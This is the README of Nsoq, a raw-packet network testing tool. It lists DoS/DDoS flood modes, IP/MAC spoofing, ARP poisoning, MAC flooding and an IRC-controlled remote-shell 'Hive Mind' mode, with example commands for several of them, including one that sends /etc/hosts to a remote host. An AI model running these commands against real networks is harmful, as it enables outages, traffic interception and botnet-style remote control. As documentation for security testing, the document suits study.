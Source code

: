 Nsoq official documentation: See [here.](http://www.nsoq.org)
========================================================================


## About
--------

   Nsoq is a Network Security tool for raw packets manipulation that allows a
   large number of options. Its primary purpose is analyze and test several 
   scenarios of TCP/IP environments, such TCP/UDP packets and low levels 
   ARP/RARP packets.<BR/>
   Nsoq can send packets to any target type (like hostnames, IPs and MAC address)
   like handling many fields/headers like: Source/Destination IP address,
   Source/Destination MAC address, TCP flags, ICMP types, TCP/UDP/ICMP packet
   size, payloads ARP/RARP, etc.

   Nsoq is able to operate into the RSOI mode (Remote System over IRC), where 
   the tool can surrender all control of machine resources to some specific IRC
   channel, also called Hive Mind option.
   
   Nsoq exeutes sistematically many types of network based attacks, like packet
   attacks, MAC/IP Spoofing, DoS/DDoS attacks, ARP Poison, MAC Flooding and
   Web Stress Testing.

<BR/>

## Features
-----------

#### Some white options:
- Sends and checks many ICMP packet types: Echo Request, Mask Reply, Information Request, Source Quench, etc.
- Sends and checks the TCP packet headers: bit SYN, ACK, RST, FIN, PUSH , XMAS e NULL FLAGS.
- Server/Client TCP. Also checks TCP packet headers (tcpdump style).
- Check and sends UDP packets.
- Sends and checks ARP/RARP packets (enlace layer).
- [Listen Modes] Listen ICMP, UDP, TCP (packets or connections) and ARP/RARP.
- Threads handler on all modes.
- Sets packet size for all modes.
- Show a packet dump on listen modes (tcpdump style).
- [RSOI mode] Delivers a remote shell under IRC channels (IRCp protocol).
- FTP handler (I/O bound connections like netcat style).
- Arping mode. Sends ARP replies instead of ICMP ping (bypass ICMP ping).

#### Dark Options:
- [DoS/DDoS Attack] WEB Stress HTTP test.
- [DoS/DDoS Attack] WEB Stress TCP test.
- [DoS/DDoS Attack] WEB Stress UDP test.
- [DoS/DDoS Attack] WEB Stress ICMP test.
- [DoS/DDoS Attack] WEB Stress SYN test.
- [DoS/DDoS Attack] WEB Stress ACK test.
- [HIVE MIND] Surrenders remote control of the machine resources to an IRC channel across a remote shell (RSOI mode).
- MAC e IP spoofing.
- [HIVE MIND] Across of an IRC channel, perform a Distributed Denial Of Service (DDoS) attack.
- [ARP Poisoning Attack] Changes the ARP cache table of network neighbors (CAUTION).
- [MAC Flooding Attack] ARP Flooding with MAC/IP address randomly crafted (CAUTION).

<BR/>

##EXAMPLES
-----------

```
   # nsoq -d hexcodes -Ie
      Sends an ICMP packet (Echo Request) to host "hexcodes".

   # nsoq -lI
      ICMP listen mode. Listen for ICMP packets like PINGs.

   # nsoq -It -d www.hexcodes.org -c
      Sends ICMP packets (Timestamp Request) on continuous mode to server 
      "www.hexcodes.org".

   # nsoq -s 10.1.100.100 -d www.hexcodes.org -u -p 4140
      Sends an empty UDP packet with spoofed source ip "10.1.100.100" to host
      "hexcodes" on port 4140.

   # nsoq -d www.hexcodes.org -u -p 9000 -P 22000 -F 900 -q 20
      Sends only 20 UDP packets to server "www.hexcodes.org" and to port 9000,
      from source port 22000 with flood Delay of 900 miliseconds.

   # nsoq -d 201.1.0.13 -Ie -x 512 -t 50 -z
      Sets Nsoq for send ICMP packets (Echo Request) with size of 512 bytes 
      to host "201.1.0.13" with TTL 50. Don't wait for ICMP Echo ReplY.

   # nsoq -lU -P 59
      Listen UDP packets on local port 59 (all addresses and loopback).

   # nsoq -d hexcodes -Ts -p 6000
      Sends a TCP SYN packet to host "hexcodes" on port 6000.

   # nsoq -lC -P 12345 > file.txt
      Listen TCP connections on local port "12345", and write the received
      data on file 'file.txt'.

   # nsoq -d hexcodes -p 12345 < /etc/hosts
      Connect to host 'hexcodes' reading the file '/etc/hosts. The file
      content will be send over the TCP connection (netcat style).
   
   # nsoq -lT -P 2134 -D
      Listen for TCP packets on local port "2134" and show the packet content.

   # nsoq -d www.hexcodes.org -Tr -p 8080 -n 12 -b
      Sends TCP RST packets to server "www.hexcodes.org" on port 8080, with 12
      threads and super flood mode (HOT).

   # nsoq -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to physical Broadcast FF:FF:FF:FF:FF:FF. (The
      source MAC address and the source IP address will be obtained locally 
      by the active interface. The destination IP address will be NULL).

   # nsoq -i eth2 -h 00:BB:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF -d 10.1.10.1 -A
      Sends an ARP REQUEST packet by the eth2 interface with source MAC 
      00:BB:AA:CC:BB:AA, to destination physical Broadcast FF:FF:FF:FF:FF:FF,
      asking "Who ??" on the network have the IP address "10.1.10.1". The IP
      "10.1.10.1" (if alive) will respond with an ARP REPLY filled with its
      own MAC/IP address pair.

   # nsoq -s 10.2.2.100 -h 00:CC:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to destination physical Broadcast 
      FF:FF:FF:FF:FF:FF saying that the source IP address "10.2.2.100" have
      now the MAC address 00:CC:AA:CC:BB:AA. (Caution: This option changes
      the ARP cache table. Possible ARP poisoning attack).

   # nsoq -a 10.1.50.100
      Send an Arp'ing packet to Host "10.1.50.100". If the host hardware is
      alive on network or LAN, by default an ARP REPLY will be returned.
      Otherwise, nothing happens. This option can be used to bypass ICMP
      filters (PING filters).

   # nsoq -f 250000
      Send 250000 ARP REPLY packets (to physical broadcast) with the
      fields (SOURCE MAC, DESTINATION MAC, SOURCE IP and DESTINATION IP
      ADDRESSESS) randomly generated.

   # nsoq -lA -D
      Listen for ARP/RARP packets. Does a listen action for all incoming
      ARP/RARP packets on link layer, and show the packet content.

   # nsoq -N irc.quakenet.org -L Cybers
      Sets the Nsoq to connect on IRC Server "irc.quakenet.org" on channel
      #Cybers. This option puts Nsoq on the RSOI mode. So, the Nsoq 
      will be NO AVAILABLE to be controled by user. Only the users on IRC
      server "irc.quakenet.org" channel #Cybers can do this.

   # nsoq -d 10.0.0.1 -W -n 40
      Sets the Nsoq to "WEB Stress Mode". This option puts Nsoq to send HTTP
      requests (GET method) on super flooding mode to host "10.0.0.1" on port
      80 (WEB HTTP) with 40 threads. This stress test attempts to exhaust the
      services on port 80 (Web Server) and check the target's limit response.
```

<BR/>

## SECURITY
-----------

   Nsoq need superuser privileges (root) for operation and execution. DO NOT
   use the stick bit to allow root privilegies. This is not recommended and
   may allow involuntary or agressive DoS/DDoS attacks. The privileged Nsoq
   use also allows users manipulate the ARP cache table of neighbors on
   network, or put the system over a remote control.

<BR/>

## DISPONIBILITY
----------------

   Nsoq is available to anyone who wants to know, manipulate, or disassembly
   the tool. Nsoq is licensed under GPL and Free Software Foundation.<BR/> 
   A copy of the license accompanies the software.<BR/>
   Licensed under GPL 3 - Copyright (C) Felipe Ecker.
   
   Nsoq can be freely downloaded across of specif packets here: 
   [http://www.nsoq.org](http://www.nsoq.org)
